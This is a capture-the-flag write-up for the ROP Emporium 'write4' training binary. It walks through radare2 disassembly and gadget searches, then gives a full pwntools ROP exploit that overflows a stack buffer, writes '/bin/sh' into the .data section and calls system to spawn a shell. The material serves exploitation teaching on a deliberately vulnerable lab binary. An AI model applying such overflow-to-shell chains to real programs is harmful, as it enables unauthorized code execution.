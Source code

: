 # callme

Downloading, unzipping, and running the [challenge file](https://ropemporium.com/binary/write4.zip) gives us roughly the same as previous challenges:

```sh
$ ./write4
write4 by ROP Emporium
64bits

Go ahead and give me the string already!
> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
[1]    7073 segmentation fault (core dumped)  ./write4
```

We can skip right to examining the `pwnme` and `usefulFunction` functions:
```asm
$ r2 -A write4
[x] Analyze all flags starting with sym. and entry0 (aa)
[x] Analyze function calls (aac)
[x] Analyze len bytes of instructions for references (aar)
[x] Constructing a function name for fcn.* and sym.func.* functions (aan)
[x] Type matching analysis for all functions (afta)
[x] Use -AA or aaaa to perform additional experimental analysis.
 -- Welcome back, lazy human!
[0x00400650]> pd @ sym.pwnme
/ (fcn) sym.pwnme 82
|   sym.pwnme ();
|           ; var char *s @ rbp-0x20
|           ; CALL XREF from sym.main (0x40079f)
|           0x004007b5      55             push rbp
|           0x004007b6      4889e5         mov rbp, rsp
|           0x004007b9      4883ec20       sub rsp, 0x20
|           0x004007bd      488d45e0       lea rax, [s]
|           0x004007c1      ba20000000     mov edx, 0x20               ; 32 ; size_t n
|           0x004007c6      be00000000     mov esi, 0                  ; int c
|           0x004007cb      4889c7         mov rdi, rax                ; void *s
|           0x004007ce      e82dfeffff     call sym.imp.memset         ; void *memset(void *s, int c, size_t n)
|           0x004007d3      bfe0084000     mov edi, str.Go_ahead_and_give_me_the_string_already ; 0x4008e0 ; "Go ahead and give me the string already!" ; const char *s
|           0x004007d8      e8f3fdffff     call sym.imp.puts           ; int puts(const char *s)
|           0x004007dd      bf09094000     mov edi, 0x400909           ; const char *format
|           0x004007e2      b800000000     mov eax, 0
|           0x004007e7      e804feffff     call sym.imp.printf         ; int printf(const char *format)
|           0x004007ec      488b157d0820.  mov rdx, qword [obj.stdin]  ; [0x601070:8]=0 ; FILE *stream
|           0x004007f3      488d45e0       lea rax, [s]
|           0x004007f7      be00020000     mov esi, 0x200              ; 512 ; int size
|           0x004007fc      4889c7         mov rdi, rax                ; char *s
|           0x004007ff      e81cfeffff     call sym.imp.fgets          ; char *fgets(char *s, int size, FILE *stream)
|           0x00400804      90             nop
|           0x00400805      c9             leave
\           0x00400806      c3             ret
/ (fcn) sym.usefulFunction 17
|   sym.usefulFunction ();
|           0x00400807      55             push rbp
|           0x00400808      4889e5         mov rbp, rsp
|           0x0040080b      bf0c094000     mov edi, str.bin_ls         ; 0x40090c ; "/bin/ls" ; const char *string
|           0x00400810      e8cbfdffff     call sym.imp.system         ; int system(const char *string)
|           0x00400815      90             nop
|           0x00400816      5d             pop rbp
\           0x00400817      c3             ret
            0x00400818      0f1f84000000.  nop dword [rax + rax]
            ;-- usefulGadgets:
            0x00400820      4d893e         mov qword [r14], r15
            0x00400823      c3             ret
            0x00400824      662e0f1f8400.  nop word cs:[rax + rax]
            0x0040082e      6690           nop
```
There's a `usefulGadgets` section, but that's jumping ahead a tiny bit.

Once again, there's a `system` call we can make use of, but jumping directly to `usefulFunction` will call `system` with the arguments `/bin/ls` and isn't going to help us. Last time we were able to just nicely find a `/bin/cat flag.txt` string hanging out in the binary. Let's search the binary for strings again:

```asm
[0x00400650]> iz
000 0x000008b8 0x004008b8  22  23 (.rodata) ascii write4 by ROP Emporium
001 0x000008cf 0x004008cf   7   8 (.rodata) ascii 64bits\n
002 0x000008d7 0x004008d7   8   9 (.rodata) ascii \nExiting
003 0x000008e0 0x004008e0  40  41 (.rodata) ascii Go ahead and give me the string already!
004 0x0000090c 0x0040090c   7   8 (.rodata) ascii /bin/ls
```

Nope nothing that easy this time. However, let's take a look at that `usefulGadgets` section:

```asm
            ;-- usefulGadgets:
            0x00400820      4d893e         mov qword [r14], r15
            0x00400823      c3             ret
```

If we can pop values into r14 and r15, that gadget should let us write arbitrary values. Let's see if we get lucky with another gadget:

```asm
[0x00400650]> /R pop r14
  0x0040088c               415c  pop r12
  0x0040088e               415d  pop r13
  0x00400890               415e  pop r14
  0x00400892               415f  pop r15
  0x00400894                 c3  ret

  0x0040088d                 5c  pop rsp
  0x0040088e               415d  pop r13
  0x00400890               415e  pop r14
  0x00400892               415f  pop r15
  0x00400894                 c3  ret

  0x0040088f                 5d  pop rbp
  0x00400890               415e  pop r14
  0x00400892               415f  pop r15
  0x00400894                 c3  ret
```

Well there we go :)

So what we want to do is find a place in memory that's writeable, put the string `/bin/sh` or perhaps `/bin/cat flag.txt` into that address, and then put the address of that string into rdi so that `system` will be called with that string as its argument.

Let's start by picking a place to put our argument string. Printing out the sections:

```asm
[0x00400746]> iS
[Sections]
00 0x00000000     0 0x00000000     0 ----
01 0x00000238    28 0x00400238    28 -r-- .interp
02 0x00000254    32 0x00400254    32 -r-- .note.ABI_tag
03 0x00000274    36 0x00400274    36 -r-- .note.gnu.build_id
04 0x00000298    48 0x00400298    48 -r-- .gnu.hash
05 0x000002c8   288 0x004002c8   288 -r-- .dynsym
06 0x000003e8   116 0x004003e8   116 -r-- .dynstr
07 0x0000045c    24 0x0040045c    24 -r-- .gnu.version
08 0x00000478    32 0x00400478    32 -r-- .gnu.version_r
09 0x00000498    96 0x00400498    96 -r-- .rela.dyn
10 0x000004f8   168 0x004004f8   168 -r-- .rela.plt
11 0x000005a0    26 0x004005a0    26 -r-x .init
12 0x000005c0   128 0x004005c0   128 -r-x .plt
13 0x00000640     8 0x00400640     8 -r-x .plt.got
14 0x00000650   594 0x00400650   594 -r-x .text
15 0x000008a4     9 0x004008a4     9 -r-x .fini
16 0x000008b0   100 0x004008b0   100 -r-- .rodata
17 0x00000914    68 0x00400914    68 -r-- .eh_frame_hdr
18 0x00000958   308 0x00400958   308 -r-- .eh_frame
19 0x00000e10     8 0x00600e10     8 -rw- .init_array
20 0x00000e18     8 0x00600e18     8 -rw- .fini_array
21 0x00000e20     8 0x00600e20     8 -rw- .jcr
22 0x00000e28   464 0x00600e28   464 -rw- .dynamic
23 0x00000ff8     8 0x00600ff8     8 -rw- .got
24 0x00001000    80 0x00601000    80 -rw- .got.plt
25 0x00001050    16 0x00601050    16 -rw- .data
26 0x00001060     0 0x00601060    48 -rw- .bss
27 0x00001060    52 0x00000000    52 ---- .comment
28 0x00001ae2   268 0x00000000   268 ---- .shstrtab
29 0x00001098  1896 0x00000000  1896 ---- .symtab
30 0x00001800   738 0x00000000   738 ---- .strtab
```
There are a few sections marked `rw` that we can write to. Writing to either the `dynamic`, `got`, or `got.plt` sections are likely to interfere with dynamic linking and program execution.
We could *potentially* get away with writing to the `init_array` or `fini_array` sections because they're related to program initialization and termination and we no longer really care about that.
Luckily we don't need to bother with that as the `data` section will do just fine.
The `data` section is where global variables are stored, and therefore has to be `rw`. Let's see what's currently in it:

```asm
[0x00400746]> px 16 @ 0x00601050
- offset -   0 1  2 3  4 5  6 7  8 9  A B  C D  E F  0123456789ABCDEF
0x00601050  0000 0000 0000 0000 0000 0000 0000 0000  ................
```

We can see that it's only 16 bytes long from the previous list.
This is a fairly contrived challenge in that there's nothing currently in the data section and it's perfectly sized for our string.

Finally we look for a `pop rdi`:

```asm
[0x00400746]> /R pop rdi
  0x00400893                 5f  pop rdi
  0x00400894                 c3  ret
```

And now we can craft our exploit:

```python
from pwn import *

prog = process("./write4")

system_call = p64(0x00400810)

payload = "A" * 40

payload += p64(0x400890)    # pop r14; pop r15; ret
payload += p64(0x00601050)  # address in data
payload += ("/bin/sh\0")
payload += p64(0x400820)    # mov qword ptr [r14], r15; ret
payload += p64(0x400893)    # pop rdi; ret
payload += p64(0x00601050)  # our address in data
payload += system_call

print prog.recvuntil(">")
prog.clean()

prog.sendline(payload)

prog.interactive()
```

This time we use the `prog.interactive()` function so that when `/bin/sh` is called, we're dropped into the new shell. We could have also used the `/bin/cat flag.txt` string and then we wouldn't need to interact with the new shell:

```sh
$ python exploit.py
[+] Starting local process './write4': pid 14219
write4 by ROP Emporium
64bits

Go ahead and give me the string already!
>
[*] Switching to interactive mode
$ cat flag.txt
ROPE{a_placeholder_32byte_flag!}
```

Success!
